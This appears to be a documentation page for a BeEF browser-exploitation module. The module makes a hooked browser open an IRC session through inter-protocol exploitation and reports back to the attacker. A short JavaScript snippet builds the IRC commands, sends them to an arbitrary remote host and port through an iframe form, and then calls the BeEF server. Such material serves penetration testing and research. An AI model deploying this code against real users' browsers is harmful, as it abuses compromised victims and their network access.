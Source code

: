 ## Summary

* **Objective**: Communicate with IRC server through a hooked browser
* **Authors**: jgaliana
* **Browsers**: Firefox

* [Code](https://github.com/beefproject/beef/tree/master/modules/ipec/inter_protocol_irc)

## Internal Working

Using Inter-protocol Exploitation/Communication (IPEC) the hooked browser will connect to an IRC server, join a channel and send messages to it.

>NOTE: Some IRC servers (like freenode) have implemented protections against connections from a web browser. This module is unlikely to work in those instances.


```js
var irc_commands = "NICK " + nick + "\n";
irc_commands    += "USER " + nick + " 8 * : " + nick + " user\n";
irc_commands    += "JOIN " + channel + "\n";
irc_commands    += "PRIVMSG " + channel + " :" + message + "\nQUIT\n";

// send commands
var irc_iframe_<%= @command_id %> = beef.dom.createIframeIpecForm(rhost, rport, "/index.html", irc_commands);
beef.net.send("<%= @command_url %>", <%= @command_id %>, "result=IRC command sent");
````

## Feedback

